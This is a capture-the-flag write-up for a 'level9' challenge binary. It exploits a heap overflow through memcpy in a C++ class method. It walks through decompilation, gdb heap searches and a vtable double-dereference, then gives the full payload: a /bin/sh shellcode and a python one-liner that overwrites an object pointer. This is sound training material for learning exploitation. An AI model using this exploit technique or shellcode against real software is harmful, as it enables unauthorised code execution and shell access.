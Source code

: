 We start by opening the the file in [dogbolt](https://dogbolt.org/).
It is a cpp file.

In this file there is 2 interesting thing :
- There is two class allocate one next to the other on the heap.
- In the class `N` the is a method `N::setAnnotation` which use a `memcpy` to copy `argv[1]` in a buffer from the class

Using [dogbolt](https://dogbolt.org/) we can see that the program allocate `6c`: 108 bytes with `new` : ```v3 = (N *)operator new(0x6Cu);```
So we know that we will need an offset of 108 bytes to overwrite `b`

So what are we going to do : 
In the return of main has a double dereferenced call of `b->operator+` because of how vtables works.
Since we can write on `b` with `a` we will have to put an address pointing to another address pointing to our shellcode


Finding the address of our input in the heap:
We start the program and go after the line calling `N::setAnnotation` in `main`

```Shell
(gdb) start AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 4 at 0x80485f8
Starting program: /home/user/level9/level9 AAAA
(gdb) ni 29
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
=> 0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
   ...
```

We search the heap to find our value and we found `0x804a00c` the address on the heap
```Shell
(gdb) i proc map
process 5525
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9
         0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7cfa000 0xb7cfc000     0x2000        0x0 
        0xb7cfc000 0xb7d18000    0x1c000        0x0 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d18000 0xb7d19000     0x1000    0x1b000 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d19000 0xb7d1a000     0x1000    0x1c000 /lib/i386-linux-gnu/libgcc_s.so.1
        0xb7d1a000 0xb7d44000    0x2a000        0x0 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d44000 0xb7d45000     0x1000    0x29000 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d45000 0xb7d46000     0x1000    0x2a000 /lib/i386-linux-gnu/libm-2.15.so
        0xb7d46000 0xb7d47000     0x1000        0x0 
        0xb7d47000 0xb7eea000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eea000 0xb7eec000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eec000 0xb7eed000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7eed000 0xb7ef0000     0x3000        0x0 
        0xb7ef0000 0xb7fc8000    0xd8000        0x0 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fc8000 0xb7fc9000     0x1000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fc9000 0xb7fcd000     0x4000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fcd000 0xb7fce000     0x1000    0xdc000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
        0xb7fce000 0xb7fd5000     0x7000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

We see the start and the end of the heap at this line:
```0x804a000  0x806b000    0x21000        0x0 [heap]```
Where `0x804a000` is the starting address and `0x806b000` is the first that address doesn't belong to the heap anymore. (It's like a index where you have to : array[len(array) - 1] to access the last element)
So address end of the heap - 1 : `0x806b000` - 1 => `0x806afff`
```
(gdb) find 0x804a000, 0x806afff, "AAAA"
0x804a00c
1 pattern found.
```
The address of our input is : `0x804a00c`

Here we have to launch `/bin/sh` with a shellcode
To accommodate the double dereferencement we will overwrite the address of `b` with the address of the beginning of our heap buffer.
At the start of our input we will put another address pointing to the shellcode :
[address of input + 4(sizeof this address)][shellcode][padding][address of input(this overwrite `b`)]
address of the input in the heap : `0x804a00c`
in little endian : `\x0c\xa0\x04\x08`
address of the shellcode (input + 4) : `0x804a00c + 0x4 = 804A010`
in little endian : `\x10\xa0\x04\x08`

The [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) we will be using is : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

```Shell
./level9 $(python -c 'print"\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
```
